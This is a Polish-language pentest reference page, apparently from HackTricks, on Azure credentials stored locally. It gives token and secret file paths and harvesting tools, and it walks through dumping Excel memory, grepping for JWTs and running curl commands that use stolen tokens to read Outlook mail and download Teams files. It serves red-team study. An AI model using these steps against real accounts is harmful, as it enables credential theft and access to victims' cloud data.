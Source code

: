 # Az - Lokalna Chmura Poświadczenia

{{#include ../../../banners/hacktricks-training.md}}

## Lokalna Przechowalnia Tokenów i Rozważania Bezpieczeństwa

### Azure CLI (Interfejs Wiersza Poleceń)

Tokeny i dane wrażliwe są przechowywane lokalnie przez Azure CLI, co budzi obawy dotyczące bezpieczeństwa:

1. **Tokeny Dostępu**: Przechowywane w formacie tekstowym w `accessTokens.json` znajdującym się w `C:\Users\<username>\.Azure`.
2. **Informacje o Subskrypcji**: `azureProfile.json`, w tym samym katalogu, zawiera szczegóły subskrypcji.
3. **Pliki Dziennika**: Folder `ErrorRecords` w `.azure` może zawierać dzienniki z ujawnionymi poświadczeniami, takie jak:
- Wykonane polecenia z osadzonymi poświadczeniami.
- Adresy URL uzyskane za pomocą tokenów, potencjalnie ujawniające wrażliwe informacje.

### Azure PowerShell

Azure PowerShell również przechowuje tokeny i dane wrażliwe, które można uzyskać lokalnie:

1. **Tokeny Dostępu**: `TokenCache.dat`, znajdujący się w `C:\Users\<username>\.Azure`, przechowuje tokeny dostępu w formacie tekstowym.
2. **Sekrety Usługi Głównej**: Są przechowywane w formacie niezaszyfrowanym w `AzureRmContext.json`.
3. **Funkcja Zapisywania Tokenów**: Użytkownicy mają możliwość utrwalania tokenów za pomocą polecenia `Save-AzContext`, które powinno być używane ostrożnie, aby zapobiec nieautoryzowanemu dostępowi.

### Automatyczne Narzędzia do Ich Znalezienia

- [**Winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe)
- [**Get-AzurePasswords.ps1**](https://github.com/NetSPI/MicroBurst/blob/master/AzureRM/Get-AzurePasswords.ps1)

## Tokeny w pamięci

Jak wyjaśniono w [**tym filmie**](https://www.youtube.com/watch?v=OHKZkXC4Duw), niektóre oprogramowanie Microsoftu synchronizowane z chmurą (Excel, Teams...) może **przechowywać tokeny dostępu w formacie tekstowym w pamięci**. Dlatego po prostu **zrzucenie** **pamięci** procesu i **przeszukiwanie** pod kątem tokenów JWT może dać dostęp do kilku zasobów ofiary w chmurze, omijając MFA.

Kroki:

1. Zrzutuj procesy excela synchronizowane z użytkownikiem EntraID za pomocą ulubionego narzędzia.
2. Uruchom: `string excel.dmp | grep 'eyJ0'` i znajdź kilka tokenów w wynikach
3. Znajdź tokeny, które najbardziej Cię interesują, i uruchom nad nimi narzędzia:
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
**Zauważ, że tego rodzaju tokeny dostępu można również znaleźć w innych procesach.**

{{#include ../../../banners/hacktricks-training.md}}
